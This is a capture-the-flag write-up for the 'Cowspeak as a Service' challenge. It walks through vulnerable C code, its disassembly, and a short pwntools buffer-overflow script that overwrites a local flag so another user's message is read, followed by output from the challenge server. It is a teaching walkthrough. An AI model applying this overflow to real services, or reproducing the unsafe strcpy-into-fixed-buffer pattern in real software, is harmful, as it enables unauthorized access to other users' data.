 # Cowspeak as a Service

![](chall.png)

Ok, I gotta admit, this was a really fun challenge! Took me a bit, but I really enjoyed doing it! It was a good one!

We are given the [source code](main.c) of the binary. It uses a program called cowsay, which is a program that generates an ASCII image of a cow with a message. But this is an online service, hence the name Cowspeak as a Service.

Looking at the source, I found out that...

```c
int main() {
        char buf[1024];
        setbuf(stdout, NULL);
        puts("Welcome to Cowsay as a Service (CaaS)!\n");
        puts("Enter your message: \n");

        fgets(buf, 1024, stdin);
        moo(buf);

        return 0;
}
```

...it takes 1024 characters as input...

```c
void moo(char *msg)
{
        char speak[64];
        int chief_cow = 1;

        strcpy(speak, msg);
        speak[strcspn(speak, "\r\n")] = 0;
        setenv("MSG", speak, chief_cow);

        system("./cowsay $MSG");

}
```

...stores it in an environment variable, and then executes cowsay with your message, displaying the message as output.

I first thought that by using this you could execute bash code, because you can set flags for cowsay when connected to the server via netcat:

```
Welcome to Cowsay as a Service (CaaS)!

Enter your message:

-f tux "Hello!"
 __________
< "Hello!" >
 ----------
   \
    \
        .--.
       |o_o |
       |:_/ |
      //   \ \
     (|     | )
    /'\_   _/`\
    \___)=(___/
```

But that is indeed not the case.

I read the challenge text again. It looks like we have to figure out how to read a message we didn't write.

If we find out how to not overwrite the environment variable, we will see other messages people wrote.

But how do we do that?

After some digging, I found this:

[![](setenv.png)](https://www.ibm.com/support/knowledgecenter/en/SSLTBW_2.2.0/com.ibm.zos.v2r2.bpxbd00/setenv.htm)
[![](setenv2.png)](https://www.ibm.com/support/knowledgecenter/en/SSLTBW_2.2.0/com.ibm.zos.v2r2.bpxbd00/setenv.htm)

Hmm... If `change_flag` is 0, the message is not overwritten! But what is that in our script?

```c
char speak[64];
int chief_cow = 1;
...
setenv("MSG", speak, chief_cow);
```

It uses a variable called `chief_cow` to determine if this will be overwritten. It's time to do another buffer overflow!

You can compile the script by using `gcc`

```
$ gcc main.c -o main
```

Then, to see the assembly, you can use this command:

```
$ objdump -d -M intel main > main.asm
```

Let's look at `moo`:

```
0000000000001195 <moo>:
    1195:	55                   	push   rbp
    1196:	48 89 e5             	mov    rbp,rsp
    1199:	48 83 ec 60          	sub    rsp,0x60
    119d:	48 89 7d a8          	mov    QWORD PTR [rbp-0x58],rdi
    11a1:	c7 45 fc 01 00 00 00 	mov    DWORD PTR [rbp-0x4],0x1
    11a8:	48 8b 55 a8          	mov    rdx,QWORD PTR [rbp-0x58]
    11ac:	48 8d 45 b0          	lea    rax,[rbp-0x50]
    11b0:	48 89 d6             	mov    rsi,rdx
    11b3:	48 89 c7             	mov    rdi,rax
    11b6:	e8 75 fe ff ff       	call   1030 <strcpy@plt>
    11bb:	48 8d 45 b0          	lea    rax,[rbp-0x50]
    11bf:	48 8d 35 42 0e 00 00 	lea    rsi,[rip+0xe42]        # 2008 <_IO_stdin_used+0x8>
    11c6:	48 89 c7             	mov    rdi,rax
    11c9:	e8 b2 fe ff ff       	call   1080 <strcspn@plt>
    11ce:	c6 44 05 b0 00       	mov    BYTE PTR [rbp+rax*1-0x50],0x0
    11d3:	8b 55 fc             	mov    edx,DWORD PTR [rbp-0x4] ## int chief_cow = 1;
    11d6:	48 8d 45 b0          	lea    rax,[rbp-0x50]          ## char speak[64];
    11da:	48 89 c6             	mov    rsi,rax
    11dd:	48 8d 3d 27 0e 00 00 	lea    rdi,[rip+0xe27]        # 200b <_IO_stdin_used+0xb>
    11e4:	e8 67 fe ff ff       	call   1050 <setenv@plt>
    11e9:	48 8d 3d 1f 0e 00 00 	lea    rdi,[rip+0xe1f]        # 200f <_IO_stdin_used+0xf>
    11f0:	e8 7b fe ff ff       	call   1070 <system@plt>
    11f5:	90                   	nop
    11f6:	c9                   	leave  
    11f7:	c3                   	ret   
```

So, the character array `speak[64]` is at `rbp-0x50`, or 80 bytes below the base pointer. This is where we start writing data at.

`chief_cow` is at `rbp-0x4` or 4 bytes below the base pointer. `chief_cow` is 4 bytes in size.

We need to write bytes up to `chief_cow`, and then overwrite `chief_cow` with 0.

We can do this in python. I'm using [pwntools](https://docs.pwntools.com/en/stable/about.html) to do this.

```python
r.send(b'A' * (0x50 - 0x4)) ## Write bytes up to chief_cow
r.send(p64(0x0)) ## chief_cow == 0
```

And that's it! We should get the flag!

```
$ py sol.py rem
[+] Opening connection to 192.241.138.174 on port 9998: Done
[*] Switching to interactive mode
Welcome to Cowsay as a Service (CaaS)!

Enter your message:

 ________________________
< UMDCTF-{P5Th_Ov3rF10w} >
 ------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
[*] Got EOF while reading in interactive
```

Flag: `UMDCTF-{P5Th_Ov3rF10w}`
